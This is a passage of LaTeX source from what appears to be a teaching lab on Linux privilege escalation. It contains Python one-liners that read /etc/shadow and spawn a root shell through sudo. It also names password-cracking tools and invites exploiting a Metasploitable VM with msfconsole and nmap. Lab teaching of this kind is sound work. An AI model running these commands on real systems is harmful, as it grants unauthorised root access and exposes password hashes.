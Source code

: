\documentclass{article}
\begin{document}
\begin{enumerate}
    Python is often allowed to run as root, and it’s a very bad practice:
    \begin{itemize}
        \item \lstinline{/usr/sbin/john} is an utility that bruteforce password files
        \item \lstinline{/usr/sbin/unshadow} is a commands that merges the result of \lstinline{/etc/passwd} and \lstinline{/etc/shadow} to put them in a format readable by john
    \end{itemize}
    \begin{verbatim}
import os
os.system('cat /etc/shadow')
\end{verbatim}
Or
    \begin{verbatim}
sudo python -c 'import pty; pty.spawn("/bin/sh")'
\end{verbatim}
\end{enumerate}

\section{Bonus: going beyond}

Using another metasploitable VM as server (i.e a VM designed to be vulnerable) with some port opened and vulnerable version of services, try to reproduce the preceding exploits and even more if you can. Look on the internet for vulnerability for the different opened services, or search with \lstinline{msfconsole}.
\begin{center}
    \lstinline{msf > search <exploit_service>}
\end{center}
You can find a metasploitable VM here: 
\begin{center}
    \url{https://docs.rapid7.com/metasploit/metasploitable-2/}
\end{center}
It's time to play, try to discover all the possibilities that \lstinline{nmap} or other scanning tools have to propose. Search for common vulnerability and how to exploit them !
% 
% 
\end{document}
